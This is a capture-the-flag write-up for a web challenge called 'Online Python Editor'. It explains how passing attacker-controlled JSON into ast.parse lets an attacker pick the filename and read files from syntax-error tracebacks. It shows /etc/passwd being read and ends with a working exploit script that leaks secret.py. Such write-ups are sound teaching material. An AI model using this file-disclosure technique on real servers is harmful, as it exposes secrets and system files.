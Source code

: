 ```yaml
---
title: TRX CTF 25 - Online Python Editor
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- web
- server side
authors:
- babelo
---
```


This is an easy server side challenge

## Overview

We're given a challenge that allows us to edit Python code online. Syntax checks are performed server-side using `ast.parse`, and the source code is passed by unpacking `request.json` into the function call. If an exception is thrown, the traceback will be returned to us.

Our goal is to read the content of `secret.py`

Since the source code is nearly non-existent, the vulnerability clearly lies in how `ast.parse` is called:

```py
ast.parse(**request.json)
```

Let's review the documentation for `ast.parse`:

```py
parse(
    source,
    filename='<unknown>',
    mode='exec',
    *,
    type_comments=False,
    feature_version=None,
    optimize=-1
)
    Parse the source into an AST node.
    Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
    Pass type_comments=True to get back type comments where the syntax allows.
```

Although we're not able to execute arbitrary code, there's something interesting here:

> Equivalent to `compile(source, filename, mode, PyCF_ONLY_AST)`

`compile` is known to be unsafe if used in a certain way. In fact, we can read files by causing a syntax error. For example:

```py
>>> compile(".", "/etc/passwd", "exec")
Traceback (most recent call last):
  File "<python-input-3>", line 1, in <module>
    compile(".", "/etc/passwd", "exec")
    ~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/etc/passwd", line 1
    root:x:0:0:Super User:/root:/bin/bash
    ^
```

To read multiple lines, we can add a newline before the dot, like this:

```py
compile("\n.", "/etc/passwd", "exec")
```

# Final exploit

```py
import requests

URL = "http://localhost:3000"

for x in range(32):
    leak_source = "\n"*x + "."
    response = requests.post(f"{URL}/check", json={
        "source": leak_source,
        "filename": "/app/secret.py"
        })
    leak = response.json()["error"].split("\n")[-4].strip()

    if leak == ".":
        break

    print(leak)
```
